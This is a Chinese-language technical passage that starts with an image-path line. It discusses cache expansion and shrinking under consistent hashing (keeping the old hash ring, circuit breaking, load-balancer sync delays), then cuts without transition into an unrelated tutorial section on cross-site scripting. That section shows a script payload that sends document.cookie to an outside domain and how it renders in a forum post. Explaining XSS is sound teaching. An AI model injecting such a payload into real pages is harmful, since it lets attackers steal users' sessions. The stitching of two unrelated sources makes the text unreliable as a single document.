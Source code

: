 
   不过这个方案在实际使用时有一个很大的限制，那就是高频Key本身的缓存失效时间可能很短，预热时储存的Value在实际被访问到时可能已经被更新或者失效，处理不当会导致出现脏数据，因此实现难度还是有一些大的。

2. 历史Hash环保留

   回顾一致性Hash的扩容，不难发现新增节点后，它所对应的Key在原来的节点还会保留一段时间。因此在扩容的延迟时间段，如果对应的Key缓存在新节点上还没有被加载，可以去原有的节点上尝试读取。

   举例，假设我们原有3个集群，现在要扩展到6个集群，这就意味着原有50%的Key都会失效（被转移到新节点上），如果我们维护扩容前和扩容后的两个Hash环，在扩容后的Hash环上找不到Key的储存时，先转向扩容前的Hash环寻找一波，如果能够找到就返回对应的值并将该缓存写入新的节点上，找不到时再透过缓存，如下图：

   

   ![img](https://user-gold-cdn.xitu.io/2018/9/5/165a8d81b3237540?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)

   

   这样做的缺点是增加了缓存读取的时间，但相比于直接击穿缓存而言还是要好很多的。优点则是可以随意扩容多台机器，而不会产生大面积的缓存失效。

谈完了扩容，再谈谈缩容。

1. 熔断机制

   缩容后，剩余各个节点上的访问压力都会有所增加，此时如果某个节点因为压力过大而宕机，就可能会引发连锁反应。因此作为兜底方案，应当给每个集群设立对应熔断机制来保护服务的稳定性。

2. 多集群LB的更新延迟

   这个问题在缩容时比较严重，如果你使用一个集群来作为负载均衡，并使用一个配置服务器比如ConfigServer来推送集群状态以构建Hash环，那么在某个集群退出时这个状态并不一定会被立刻同步到所有的LB上，这就可能会导致一个暂时的调度不一致，如下图：

   

   ![img](https://user-gold-cdn.xitu.io/2018/9/5/165a8d81b351fb44?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)

   

   如果某台LB错误地将请求打到了已经退出的集群上，就会导致缓存击穿。解决这个问题主要有以下几种思路：

   - 缓慢缩容，等到Hash环完全同步后再操作。可以通过监听退出集群的访问QPS来实现这一点，等到该集群几乎没有QPS时再将其撤下。
   - 手动删除，如果Hash环上对应的节点找不到了，就手动将其从Hash环上删除，然后重新进行调度，这个方式有一定的风险，对于网络抖动等异常情况兼容的不是很好。
   - 主动拉取和重试，当Hash环上节点失效时，主动从ZK上重新拉取集群状态来构建新Hash环，在一定次数内可以进行多次重试。

# 一、跨站脚本攻击

## 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

## 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```
